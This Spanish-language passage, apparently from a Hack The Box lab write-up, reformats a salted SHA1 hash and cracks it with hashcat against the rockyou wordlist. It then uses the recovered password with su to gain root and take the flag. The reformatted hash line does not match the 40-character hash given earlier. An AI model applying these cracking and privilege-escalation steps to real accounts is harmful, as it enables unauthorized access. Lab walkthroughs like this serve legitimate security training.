 ![[CyberChef.png]]

Y en la parte del **Output** tendríamos la información con la que podríamos guardar en un archivo `hash` en nuestra consola y antes de salir y guardar debemos hacer `esc + : ` eh inrgesamos este comando `%s/ //g`

Y de primera parece ser que tiene 40 caracteres `b8fd3f41a541a435857a8f3e751cc3a91c174362` que lo podemos ver de la siguiente manera 
```sh
echo -n 'b8fd3f41a541a435857a8f3e751cc3a91c174362' | wc -c
```
Salida:
40

Y como sabiamos que el `salt` se representaba con una `d` en salida de `Password="$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I` entre los signos de $

Asi que sería 
```
b8fd106950690d615ea3cfdd4730ea4705d0d8:d
```

Este seria nuestro formato de **hash** el cual ya podriamos empezar a craquiar 
```
hashcat -a 0 hash /usr/share/wordlists/rockyou.txt
```

Con esto veriamos el tipo de hashes con los cuales podriamos empezar a craquiar con el `110 o el 120`

Podriamos intentarlo de la siguiente manera 
```
hashcat -a 0 -m 120 hash /usr/share/wordlists/rockyou.txt
```

Y finalmente obtivimos la contraseña que se muestra de la siguiente manera: `monkeybizness`
 ```sh
 b8fd3f41a541a435857a8f3e751cc3a91c174362:d:monkeybizness  
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 120 (sha1($salt.$pass))
Hash.Target......: b8fd3f41a541a435857a8f3e751cc3a91c174362:d
Time.Started.....: Tue May 28 22:13:29 2024 (3 secs)
Time.Estimated...: Tue May 28 22:13:32 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   599.2 kH/s (0.21ms) @ Accel:256 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 1478656/14344384 (10.31%)
Rejected.........: 0/1478656 (0.00%)
Restore.Point....: 1477632/14344384 (10.30%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: montanna6 -> monkey-balls
Hardware.Mon.#1..: Temp: 55c Util: 64%

Started: Tue May 28 22:12:25 2024
Stopped: Tue May 28 22:13:34 2024
 ```

y ahora si podriamos logearnos com usuarios **root** para ver la bandera y completar la maquina de **HACK THE BOX**
```
su root
monkeybizness 
```

-----